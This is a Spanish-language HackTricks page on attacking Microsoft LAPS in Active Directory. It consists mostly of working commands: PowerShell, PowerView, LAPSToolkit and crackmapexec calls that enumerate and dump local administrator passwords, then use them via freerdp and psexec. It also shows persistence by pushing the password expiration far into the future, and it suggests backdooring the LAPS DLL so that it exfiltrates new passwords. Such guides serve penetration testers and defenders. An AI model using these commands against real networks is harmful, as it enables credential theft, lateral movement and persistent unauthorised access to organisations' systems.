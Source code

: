 # LAPS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Información Básica

La Solución de Contraseña de Administrador Local (LAPS) es una herramienta utilizada para gestionar un sistema donde las **contraseñas de administrador**, que son **únicas, aleatorias y cambiadas con frecuencia**, se aplican a computadoras unidas al dominio. Estas contraseñas se almacenan de forma segura dentro de Active Directory y solo son accesibles para los usuarios que han recibido permiso a través de Listas de Control de Acceso (ACLs). La seguridad de las transmisiones de contraseñas del cliente al servidor se asegura mediante el uso de **Kerberos versión 5** y **Estándar de Cifrado Avanzado (AES)**.

En los objetos de computadora del dominio, la implementación de LAPS resulta en la adición de dos nuevos atributos: **`ms-mcs-AdmPwd`** y **`ms-mcs-AdmPwdExpirationTime`**. Estos atributos almacenan la **contraseña de administrador en texto claro** y **su tiempo de expiración**, respectivamente.

### Verificar si está activado
```bash
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"
# Check if that folder exists and contains AdmPwd.dll

# Find GPOs that have "LAPS" or some other descriptive term in the name
Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

# Search computer objects where the ms-Mcs-AdmPwdExpirationTime property is not null (any Domain User can read this property)
Get-DomainObject -SearchBase "LDAP://DC=sub,DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
```
### Acceso a la Contraseña de LAPS

Puedes **descargar la política LAPS en bruto** desde `\\dc\SysVol\domain\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol` y luego usar **`Parse-PolFile`** del paquete [**GPRegistryPolicyParser**](https://github.com/PowerShell/GPRegistryPolicyParser) para convertir este archivo en un formato legible por humanos.

Además, se pueden usar los **cmdlets nativos de PowerShell de LAPS** si están instalados en una máquina a la que tenemos acceso:
```powershell
Get-Command *AdmPwd*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```
**PowerView** también se puede utilizar para averiguar **quién puede leer la contraseña y leerla**:
```powershell
# Find the principals that have ReadPropery on ms-Mcs-AdmPwd
Get-AdmPwdPassword -ComputerName wkstn-2 | fl

# Read the password
Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
```
### LAPSToolkit

El [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) facilita la enumeración de LAPS con varias funciones.\
Una es analizar **`ExtendedRights`** para **todas las computadoras con LAPS habilitado.** Esto mostrará **grupos** específicamente **delegados para leer las contraseñas de LAPS**, que a menudo son usuarios en grupos protegidos.\
Una **cuenta** que ha **unido una computadora** a un dominio recibe `All Extended Rights` sobre ese host, y este derecho le da a la **cuenta** la capacidad de **leer contraseñas**. La enumeración puede mostrar una cuenta de usuario que puede leer la contraseña de LAPS en un host. Esto puede ayudarnos a **dirigirnos a usuarios específicos de AD** que pueden leer las contraseñas de LAPS.
```powershell
# Get groups that can read passwords
Find-LAPSDelegatedGroups

OrgUnit                                           Delegated Groups
-------                                           ----------------
OU=Servers,DC=DOMAIN_NAME,DC=LOCAL                DOMAIN_NAME\Domain Admins
OU=Workstations,DC=DOMAIN_NAME,DC=LOCAL           DOMAIN_NAME\LAPS Admin

# Checks the rights on each computer with LAPS enabled for any groups
# with read access and users with "All Extended Rights"
Find-AdmPwdExtendedRights
ComputerName                Identity                    Reason
------------                --------                    ------
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\Domain Admins   Delegated
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\LAPS Admins     Delegated

# Get computers with LAPS enabled, expirations time and the password (if you have access)
Get-LAPSComputers
ComputerName                Password       Expiration
------------                --------       ----------
DC01.DOMAIN_NAME.LOCAL      j&gR+A(s976Rf% 12/10/2022 13:24:41
```
## **Extracción de Contraseñas LAPS Con Crackmapexec**
Si no hay acceso a un powershell, puedes abusar de este privilegio de forma remota a través de LDAP utilizando
```
crackmapexec ldap 10.10.10.10 -u user -p password --kdcHost 10.10.10.10 -M laps
```
Esto volcará todas las contraseñas que el usuario puede leer, lo que te permitirá obtener una mejor posición con un usuario diferente.

## ** Usando la Contraseña LAPS **
```
freerdp /v:192.168.1.1:3389  /u:Administrator
Password: 2Z@Ae)7!{9#Cq

python psexec.py Administrator@web.example.com
Password: 2Z@Ae)7!{9#Cq
```
## **Persistencia de LAPS**

### **Fecha de Expiración**

Una vez que se tiene acceso de administrador, es posible **obtener las contraseñas** y **prevenir** que una máquina **actualice** su **contraseña** al **establecer la fecha de expiración en el futuro**.
```powershell
# Get expiration time
Get-DomainObject -Identity computer-21 -Properties ms-mcs-admpwdexpirationtime

# Change expiration time
## It's needed SYSTEM on the computer
Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```
{% hint style="warning" %}
La contraseña aún se restablecerá si un **admin** utiliza el **`Reset-AdmPwdPassword`** cmdlet; o si **No permitir que el tiempo de expiración de la contraseña sea más largo de lo requerido por la política** está habilitado en el GPO de LAPS.
{% endhint %}

### Puerta trasera

El código fuente original de LAPS se puede encontrar [aquí](https://github.com/GreyCorbel/admpwd), por lo tanto, es posible poner una puerta trasera en el código (dentro del método `Get-AdmPwdPassword` en `Main/AdmPwd.PS/Main.cs`, por ejemplo) que de alguna manera **exfiltre nuevas contraseñas o las almacene en algún lugar**.

Luego, solo compila el nuevo `AdmPwd.PS.dll` y súbelo a la máquina en `C:\Tools\admpwd\Main\AdmPwd.PS\bin\Debug\AdmPwd.PS.dll` (y cambia la hora de modificación).

## Referencias
* [https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/](https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
